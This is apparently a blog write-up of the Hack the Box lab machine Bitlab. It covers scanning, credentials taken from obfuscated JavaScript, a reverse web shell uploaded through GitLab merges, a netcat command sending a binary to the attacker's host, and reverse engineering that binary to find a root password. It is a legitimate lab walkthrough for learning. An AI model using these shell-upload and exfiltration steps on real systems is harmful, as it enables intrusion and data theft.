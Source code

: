 +++
author = "Nick"
categories = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
date = 2020-01-11T12:20:41Z
description = ""
draft = false
thumbnail = "/images/2019/10/bitlab_info.png"
slug = "hack-the-box-bitlab"
summary = "Welcome back! Today we are doing the machine Bitlab on Hack the Box. "
tags = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
title = "Hack the Box - Bitlab"
url = "/hack-the-box-bitlab"
 

+++


Welcome back! Today we are doing the machine Bitlab on Hack the Box.

As usual we start with our nmap scan: ```nmap -sC -sV -oA bitlab_scan 10.10.10.114```.

Our initial scan comes back with two results. Ports ```22``` and ```80```. We see that port ```80``` is leaking some info in the scan from the ```robots.txt```:

```
Nmap scan report for 10.10.10.114
Host is up (0.087s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.72 seconds
```

Now I'll run ```gobuster``` against the URL:

```gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o go_results.txt --wildcard```. 

While that runs through I'll start to manually parse through the site and see if there are any glaring hints. This will usually include, checking default passwords, source code and looking up the platform that is running.

![](/images/2019/10/image-80.png)

The ```gobuster``` results show 5 potential locations. We browse through each and notice nothing particularly useful. However, if you continue to manually enumerate the page you will see there is a ```bookmarks.html``` link under the help section. When we follow this through we see there is an obfuscated JS function.

![](/images/2019/10/image-81.png)

When we de-obfuscate the function we get the following:

![](/images/2019/10/image-82.png)

It looks like an attempt to make an auto login type function. By passing the ```username``` clave and ```password``` of 11des0081x to the gitlab page. So we manually try these credentials and they work!

![](/images/2019/10/image-83.png)

Now that we have an authenticated. We can continue to look around the page to see what might be of use. At this point in the enumeration we have also run a ```searchsploit``` on gitlab to see what might be out there. We do see there are a few options, one of which might be promising. We will continue to sift through the commits. The ```index.php``` file has some execution happening on it which we might be able to leverage. We also see some interesting code under the snippets location. A username and password for the postrgres connector. We also have the admins profile page. We have the ability to create files and merge them. So this will be easy, we'll just upload a webshell, merge the branch and go to the page we've just created.

![](/images/2019/10/image-84.png)

We use the standard ```pentest monkey``` reverse web shell upload it, start our ```netcat``` listener, merge the branch and navigate to the page. Next thing you know we have a webshell.

![](/images/2019/10/image-85.png)

We try to snag the ```user.txt``` but run into a permissions issue. So we'll start enumerating with some standard tools, ```linenum``` and ```pspy64```. We fire up our ```SimpleHTTPServer``` and download what we need. While that runs we take a look at what we can run as a privileged user. We have the ability to ```git pull```. We also see that we are in a docker container, so we'll want to try an enumerate the other portion of the systems. As it turns out nmap is on the system and we have the ability to run it.

We run an nmap scan against the IP's that we've found to enumerate them a bit further. We come back with quite a listing:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:36 UTC
Nmap scan report for bitlab (172.19.0.1)
Host is up (0.00038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap scan report for 172.19.0.2
Host is up (0.00051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap scan report for 172.19.0.3
Host is up (0.00038s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap scan report for 172.19.0.4
Host is up (0.00011s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.5
Host is up (0.00014s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:39 UTC
Nmap scan report for bitlab (172.17.0.1)
Host is up (0.000090s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

Now we've got a fairly good idea of the landscape. Lets focus on gaining user. If we circle back around to the enumeration we did previously, we can try to leverage the hidden snippet we found. When we look at it, we see that it's making a database connection but that's it. So once the connection is made, we can just output the rows. We then create this file and merge the branch.

![](/images/2019/10/image-87.png)

Once we've merged the branch, we head over to the page name and see what results come back.

![](/images/2019/10/image-86.png)

Looks like we get a username and a ```base64``` encrypted password. We decode it and get ```ssh-str0ng-p@ss```. So either this entire string is the password or some combination of it is the ```ssh``` password. So when I try to ```ssh``` into the box as the user, I keep getting denied. So is this possibly not the right password? As the ```www-data user```, we try to change users to clave. We have the ability to but we don't seem to have the right password. Maybe the password is the hash, we are doing CTF's ;). Sure enough, the password was the hash and not the decrypted content.

![](/images/2019/10/image-88.png)

Now that we're are loggin in as clave, we snag our user.txt and move onto root. In Clave's home directory we have a binary called ```RemoteConnection.exe```. Now often Remote Connection tools can save credentials inside. So we'll transfer the binary back to our system start to reverse engineer it. So we set up a ```netcat``` listener on our machine. We then send the file on the remote machine: ```nc -w 3 10.10.15.236 1999 < RemoteConnection.exe```. Once we've received the file we can start to break it down.

We'll use [Ollydbg](http://www.ollydbg.de/) as our debugger to see what it may show. I also did a quick glace at the file in Ida as well. 

We'll load the application into Olly. Initially stepping into the application looking for the entry point that we can enter data to our application. We set a few breakpoints on those and start stepping in. We are able to quickly find what we are looking for:

![](/images/2019/10/image-89.png)

![](/images/2019/10/image-90.png)

![](/images/2019/10/image-91.png)

We have a root password here! Let's see if it works.

![](/images/2019/10/image-92.png)

It does indeed. Root flag captured! Overall a pretty easy box. I know that some people I spoke to said that you could go right from the low privileged shell to root using ```git pull```. There are multiple paths to root on this box. This is just how I did mine!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



